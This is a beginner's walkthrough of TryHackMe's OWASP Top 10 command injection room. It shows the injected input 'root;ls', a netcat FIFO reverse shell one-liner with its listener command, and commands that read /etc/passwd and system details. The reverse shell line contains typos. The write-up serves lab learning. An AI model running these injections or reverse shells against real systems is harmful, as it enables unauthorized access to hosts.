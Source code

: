 ﻿# Write-Up for OWASP top 10 - tryhackme 

## [day 1] command injection practical

Hi Guys!
This is my very first Walkthrough/Write-Up. that will be in [OWASP Top 10](https://tryhackme.com/room/owasp10#) from [tryhackme](https://tryhackme.com) which is designed for the beginners in cyber security or who is interesting in pentesting I hope you find it useful 


#### [What strange text file is in the website root directory](#1-What-strange-text-file-is-in-the-website-root-directory)
#### [How many non-root/non-service/non-daemon user are there?](#-How-many-non-root/non-service/non-daemon-users-are-there?)
#### [what user is this app running as?](#3)
#### [what is the user's shell set as?](#4)
#### [what version of Ubuntu is running?](#5)
#### [print out the MOTD. what favorite beverage is shown](#6)

by entering the website associated with the IP, we will have a directory search page asking the user to enter a user by entering a random user the page will give an error message 

![error](imgs/eroor.PNG)



but if i enter "root" the page will print a message with success

![suess](imgs/success.PNG)



so now i will try yo inject it with a username and  command "root;ls"

![test1](imgs/test1.PNG)


the message was success but with no output of the command this could indicate for a blind injection or the server is not vulnerable to command injection let's try in the recommended page < machine IP >/evilshell.php, this page ask the user to enter an command so let's try ls again without the username 

![#1](imgs/#1.PNG)


the output of the command will appear under the **"submit"** button so now we can start here 

you can present the output of the command in two ways one is in the web page but it will be out of order so we can upload revers shell and connected using netcat 
the command to upload the revers shell 
>rm /tmp/f;mkfifo /tmp/f;cat /tp/f|bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

make sure to change the IP and run this command in your terminal to listen 
> nc -lvnp 1234 

to see more ways to revers shell [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/revers-shell-cheat-sheet)
refresh the page and check your terminal you can execute the same command down there   
###  #1 What strange text file is in the website root directory
we start by showing the files by 
>ls 

maybe it seems to be normal to see  file extensions like (.doc, .txt, .pdf ,etc) on your PC but it is odd to see it in a web page, web page could have (css , .php extension , .js extension) 

![#1](imgs/#1.PNG)


### #2 How many non-root/non-service/non-daemon users are there? 
by executing 
> cat /etc/passwd 

![#2i](imgs/#2.PNG)


will print all the user and you can find out  by looking for user with login 
the users with nologin are the (root, services, daemon) users 

### #3 	What user is this app running as?
this one is a straight foreword  by executing
> whoami

![#3i](imgs/#3.PNG)


the username will be printed 
### #4  What is the user's shell set as?
the answer of this question will be printed with question 2 with the command 
>cat /etc/passwd

![#4i](imgs/#2.PNG)


### #5 What version of Ubuntu is running?
I tried the suggested command 
>uname -a 

![#5.1](imgs/#5.1.PNG)


but it doesn't show the version of Ubuntu so i used 
>  lsb_release -a

![#5.2](imgs/#5.2.PNG)


### #6 print out the MOTD. what favorite beverage is shown?
the MOTD stands for message of the day can be configured in the /etc directory but we want to print we have 13 message but the hint pointing to  00-header so let print it 
>cat /etc/update-motd.d/00-header 

in the end of the file the mention a type of drink 
![#6i](imgs/#6.PNG)


thanks 


